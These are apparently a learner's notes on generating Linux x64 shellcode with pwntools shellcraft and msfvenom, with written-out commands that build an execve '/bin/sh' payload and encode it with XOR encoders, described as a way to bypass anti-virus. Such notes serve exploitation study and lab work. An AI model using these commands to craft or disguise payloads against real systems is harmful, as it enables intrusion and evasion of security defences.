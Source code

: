 within CLI python

```bash
>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> dir(shellcraft)
```

- this lists all available syscalls

```bash
>>> syscall = shellcraft.execve(path='/bin/sh',argv=['/bin/sh'])
>>> asm(syscall).hex()
```

- loads the shellcraft into a variable
- prints the variable using asm() in hex

[pwnlib.shellcraft.amd64 — Shellcode for AMD64 — pwntools 4.14.1 documentation](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)

## MsfVenom

*a Metasploit standalone payload generator*

lists payloads for x86_64 Linux

`msfvenom -l payloads | grep 'linux/x64'`

payload for exec on Linux is: `linux/x64/exec`

Generating the shellcode in hex format

- `msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex’`

## **Shellcode Encoding**

- To bypass anti-virus or certain security protections
- Common encoders may be easy to detect

msfvenom generate and encoding

`msfvenom -l encoders` - lists available encoders

- `-e` flag to specify an encoder when generating shellcode

Example:

`msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor’`

- `-i {count}` flag can encode our generated shellcode `{count}` times

Encoded shellcode is always longer than non-encoded shellcode

- Encoding includes a built-in decoder for decoding at runtime

msfvenom encoding only

- We’d bass that shellcode to msfvenom with `-p -` flag
- Shellcode should be in bytes and written to a file
